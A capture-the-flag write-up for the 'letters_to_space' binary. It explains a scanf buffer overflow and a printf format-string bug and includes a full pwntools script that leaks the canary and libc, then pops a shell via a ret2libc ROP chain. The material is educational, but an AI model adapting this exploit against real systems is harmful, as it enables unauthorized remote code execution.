

#  Challenge Description

Welcome to our new inter-galactic mail service! Send letters to your loved aliens, and maybe even read a secret letter!
 
Note: flag.txt is in the home directory.

[letters_to_space](letters_to_space)

# Identifying the Vulnerability
Running a `checksec` on the binary, we can see that all protections are actually enabled which makes this binary a pain to exploit.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Nevertheless, let's run the binary and see how it works.

[](https://asciinema.org/a/AxsL2HenIa2NiFR54Ktbb7tRU)

As you can see from the video above, the program takes 3 inputs in an endless loop that is controlled by the user.

Now that we know what to expect, we will decompile our program in IDA and see how the pseudocode looks like.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-7Ch] BYREF
  char *v5; // [rsp+8h] [rbp-78h]
  char format[32]; // [rsp+10h] [rbp-70h] BYREF
  char v7[32]; // [rsp+30h] [rbp-50h] BYREF
  char v8[40]; // [rsp+50h] [rbp-30h] BYREF
  unsigned __int64 v9; // [rsp+78h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v5 = SECRET_LETTER_PATH;
  v4 = 1;
  setup_IO(argc, argv, envp);
  
  while ( v4 == 1 )
  {
    printf("\x1B[2J\x1B[H");
    print_banner();
    printf("Enter sender: ");
    __isoc99_scanf("%s", v8); // <----- (1)
    printf("Enter recipient: ");
    __isoc99_scanf("%s", v7); // <----- (2)
    printf("Enter contents: ");
    __isoc99_scanf("%s", format); // <----- (3)
    printf("\x1B[2J\x1B[H");
    puts("Here's what I wrote:\n");
    printf("Dear %s,\n\n", v7);
    printf(format); // <----- (4)
    printf("\n\nFrom, %s\n\n", v8);
    puts("Send another letter?");
    puts("1. Yes");
    puts("2. No");
    printf("> ");
    __isoc99_scanf("%d", &v4);
  }
  
  printf("\x1B[2J\x1B[H");
  puts("Oh by the way, someone left a secret letter for you.\nWould u like to read it?");
  puts("1. Yes");
  puts("2. No");
  printf("> ");
  __isoc99_scanf("%d", &v4);
  if ( v4 == 1 )
    display_letter(v5);
  return 0;
}
```

Looking at the pseudocode, we see the loop that takes in our 3 inputs — but what is more interesting is the way these inputs are being taken in and what is being done to it.

#### The Buffer overflow vulnerability

At **(1)** **(2)** and **(3)**, we can see that our 3 inputs are being taken in with a `scanf` function and the format string used is a `%s`. This means that we can send as many characters as we want in our input into a limited size buffer _(v1, v2 and format)_ in this case.

This gives rise to a buffer overflow in each of these inputs.

#### THE FORMAT STRING VULNERABILITY

At **(4)**, we can see that the program is printing our input with `printf`, however there are no format strings specified. This means that we can simply put format strings in our input to leak arbitrary data in the stack.

Not only is our input vulnerable to a buffer overflow, it is also vulnerable to format string exploitation.

#### Exploitation strategy

With our format string vulnerability, we can leak all sorts of stuff from the stack. We are able to leak our canary, libc addresses, as well as the binary addresses. This allows us to effectively defeat the stack canary, PIE and LIBC PIE protections. 

With our buffer overflow vulnerability, we are able to take control of our return address and use a ROP chain to pop a shell by calling `system('/bin/sh')`. The **system** functionc an be found within the LIBC and hence we will employ a return to libc attack.

# Exploitation Walkthrough

For simplicity sake when writing our exploit, we will first write a function to interact with the program.

```py
def interact(sender, recipient, content, another):
    p.sendlineafter(b"sender: ", sender)
    p.sendlineafter(b"recipient: ", recipient)
    p.sendlineafter(b"contents: ", content) 
    p.recvuntil("Dear " + recipient + ",")
    p.recvline()
    p.recvline()
    ret = int(p.recvline(), 16)
    p.sendlineafter(b"> ", another)
    return ret
```

In order to be able to buffer overflow our program without getting a _\*\*\* stack smashing detected \*\*\*: terminated_ error, we have to first leak our canary and obtain our canary value.

We can do this through leaking the canary off the stack with our format string exploit. With some calculation in GDB, we can find our canary at offset **21** on the stack. (This means that if we send _%21$p_ to our format string vulnerable input, we will get our canary!)

Then we can find our **\_\_libc\_start\_main+243** address at offset **23** on the stack. This means that we can do _%23$p_ on the remote server to leak the **\_\_libc\_start\_main+243** address.

With our leak, we will be able to do a reverse search to find the libc running on the remote machine. It is necessary to have an identical libc to the remote server so we can accurately calculate where our system address actually is.



With out canary and libc address, we can then simply call **system('/bin/sh')**.

## Exploit Script

```py

# coding: utf-8
from pwn import *

context.binary = elf = ELF('./letters_to_space')
libc = elf.libc
# libc = ELF('./lib/libc.so.6')
# p = process('./letters_to_space')
p = remote('challenges1.whitehacks.xyz', 53890)

def interact(sender, recipient, content, another):
    p.sendlineafter(b"sender: ", sender)
    p.sendlineafter(b"recipient: ", recipient)
    p.sendlineafter(b"contents: ", content) 
    p.recvuntil("Dear " + recipient + ",")
    p.recvline()
    p.recvline()
    leak = int(p.recvline(), 16)
    p.sendlineafter(b"> ", another)
    return leak


# leak libc
leak = interact("a", "b", "%23$p", "1")
libc.address = leak - 0x26fc0 - 243

# search for /bin/sh string in libc
binsh = next(libc.search(b'/bin/sh'))

# leak canary
canary = interact("a", "b", "%21$p", "1")

# setup our rop chain to call system /bin/sh
rop = ROP(libc)
rop.call(rop.ret)
rop.system(binsh)

payload = b"A"*40 + p64(canary)
payload += b"B"*8 + rop.chain()

# send our payload and exit the loop so we can return to our system binsh rop chain
interact(payload, "a", "b", "2")
p.sendline("2")

p.interactive()
```